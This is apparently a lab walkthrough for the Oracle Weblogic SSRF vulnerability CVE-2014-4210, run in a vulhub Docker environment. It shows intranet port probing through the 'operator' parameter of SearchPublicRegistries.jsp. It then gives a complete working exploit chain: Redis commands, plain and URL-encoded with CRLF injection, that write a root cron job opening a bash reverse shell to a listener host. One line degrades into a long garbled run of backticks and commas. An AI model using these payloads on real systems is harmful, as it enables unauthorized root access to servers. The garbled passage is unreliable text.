 ```yaml
---
Title: Weblogic SSRF Vulnerability CVE-2014-4210
---
```


# Weblogic SSRF Vulnerability CVE-2014-4210

## Vulnerability Description

There is an SSRF vulnerability in Weblogic. It can use this vulnerability to send any HTTP request, and then attack vulnerable components such as redis and fastcgi in the intranet. This vulnerability can be exploited through the HTTP protocol. Unauthenticated remote attackers can use this vulnerability to affect the confidentiality of the affected components.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Oracle WebLogic Server 10.0.2.0</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Oracle WebLogic Server 10.3.6.0</span>

## Environment construction

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

Visit `https://xxx.xxx.xxx.xxx:7001` and it's normal

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122010908-dfbdc992-8a59-4638-b56d-404f0b538c7e.png)

## Vulnerability reappears

The URL where the vulnerability occurs is: `https://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122062901-5664349d-68fe-4128-a6d6-ec843fefd82d.png)



Use payload to detect, and write the location of the probe in the operator parameter

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Be careful to know the intranet IP</span>

```plain
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=https://xxx.xxx.xxx.xxx:7001
```

Make a judgment by viewing the error content

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122076972-b0156bf5-41a6-4b62-9cc3-2d526f092083.png)

The existing error report content is shown in the figure, with the keyword `404`. For example, change the `operator` parameter to `https://xxx.xxx.xxx.xxx:7000`. If it does not exist, the error report content is as follows.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122081877-63d635ee-e032-4d56-a627-27606bdf334f.png)



In this way, you can detect the open port of the intranet. For example, there is a host in the intranet. `IP: 172.19.0.2` to enable the redis service on port `6379``````````````````````````````````, ``, ``, ``, ``, ``, ``, ``, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `, `,

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122086475-d48ce9eb-a76c-4daa-94b1-fce15687b76e.png)



If you access a non-http protocol, it will return `did not have a valid SOAP content-type`, so that the intranet status can be detected through the difference in error.



Send three redis commands and write the shell script to `/etc/crontab`:

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

Then perform `url encoding` request



```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

Send payload

```shell
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=https://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

Listen after sending `172.19.0.3 Port 9999` Waiting for rebound shell

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1627122093990-acdd4a50-b1ff-493f-8c86-dcd2e1445641.png)